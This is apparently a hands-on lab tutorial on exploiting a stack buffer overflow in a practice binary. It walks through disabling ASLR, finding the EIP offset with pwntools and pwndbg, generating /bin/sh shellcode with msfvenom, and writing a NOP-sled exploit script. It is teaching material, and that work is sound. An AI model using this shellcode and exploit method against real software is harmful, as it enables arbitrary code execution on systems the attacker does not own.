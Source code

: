 # Basic Buffer Overflow exploitation

## Requirements

- pwntools

    ```bash
    sudo apt-get update
    sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
    sudo apt-get install python3-pwntools
    ```

- pwndbg

    ```bash
    git clone https://github.com/pwndbg/pwndbg
    cd pwndbg
    ./setup.sh
    ```

- Disable ASLR

    ```bash
    echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
    ```

### x64?

- In case you are running a x64 OS, you will need 32-bit development headers and libraries

    ```bash
    sudo apt-get install gcc-multilib
    ```

## Demo time!

### Get the offset

0. Compile the binary and check there is a BoF

```bash
make vuln
./vuln $(python3 -c 'print("A"*1000)')
```
> You should get a segmentation fault!


1. Run pwndbg and use pwntools cyclic function to get the register info

```bash
pwndbg ./vuln
run $(python3 -c 'from pwn import *; print(cyclic(500))')
```
> Check the stack + registers. The stack was smashed!

```bash
x/300x $esp
info registers
```

2. Capture the %eip value after crash

```txt
0x61646361
```

3. Get the offset related to the %eip captured with `cyclic` bin

```bash
pwndbg> cyclic -l 0x61646361
Finding cyclic pattern of 4 bytes: b'acda' (hex: 0x61636461)
Found at offset 210
```

4. Check the offset works as expected with a custom payload

```bash
run $(python3 -c 'from pwn import *; import sys; print("A"*210 + "B"*4)')
```

> Invalid address 0x8004242

As we can see, there is some issue with the aligment, we need to add 2 bytes to control the EIP effectively 

```bash
break vuln # Add a breakpoint in the vuln function
run $(python3 -c 'from pwn import *; import sys; print("A"*212 + "B"*4)')
n # Run one step to execute the strcpy function
x/300x $esp
info registers
```
> As you can see, the stack is smashed correctly

![](./img/stack_smash.png)

Let's finish the execution! The program will crash for sure, we just need to verify the %eip register confirm we have control of %eip register

```bash
c
info registers
```
> %eip -> `0x42424242`

## Generate the shellcode!

Let's generate a shellcode compatible with our architecture

> Note: NULL -> \x00 | NewLine -> \x0a | Carriage Return ->\x0d | Space -> \x20

```bash
$ msfvenom -p linux/x86/exec CMD='/bin/sh' -b "\x00\x0a\x0d\x20" -f python

...

Payload size: 70 bytes
Final size of python file: 357 bytes
```

```python
buf =  b""
buf += b"\xba\x13\xc0\x5c\xd1\xdb\xca\xd9\x74\x24\xf4\x5e"
buf += b"\x33\xc9\xb1\x0b\x31\x56\x15\x03\x56\x15\x83\xee"
buf += b"\xfc\xe2\xe6\xaa\x57\x89\x91\x79\x0e\x41\x8c\x1e"
buf += b"\x47\x76\xa6\xcf\x24\x11\x36\x78\xe4\x83\x5f\x16"
buf += b"\x73\xa0\xcd\x0e\x8b\x27\xf1\xce\xa3\x45\x98\xa0"
buf += b"\x94\xfa\x32\x3d\xbc\xaf\x4b\xdc\x8f\xd0"
```
> The shellcode requires 70 bytes, it will fit inside our 212 offset


## Write the exploit

Follow the template to build the exploit. Create a new `exploit.py` with the content:

```python
import sys

# 70 Bytes de shellcode (buff)
buf =  b""
# Insert the shellcode here!


offset = 212            # Offset obtained at the beginning
nops = b"\x90" * 100    # Add some NOPs to secure the execution
padding = b"\x41" * 42  # padding = Offset - NOPS - Shellcode (212-100-70 = 42)

payload = nops + buf + padding

sys.stdout.buffer.write(payload)
```

Now, run the exploit in GDB adding a stopping the execution just after the stack is smashed with `strcpy`. We will check the stack to find an address to override the %eip and redirect the execution to the NOPs area.

```bash
gdb ./vuln
break vuln
run $(python3 exploit.py)
break *0x80491c7 # Break at the RET from VUln
c
x/300x $esp # Look for the x90 block (should be in the stack as is passed as a parameter)
```

> 0xffffd12c -> %eip

![](./img/payload_load.png)

Finish the exploit by overwriting the return address

```python
# 0xffffd12c EN little endian
eip = b"\x2c\xd1\xff\xff"  # Adjust with real val
payload = nops + buf + padding + eip
sys.stdout.buffer.write(payload)
```

## Run the exploit
./vuln $(python3 solution_exploit.py)



## Now let's build the exploit

Check the [solution file](./solution_exploit.py)

## Cleanup

- Don't forget to reenable the ASLR

```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
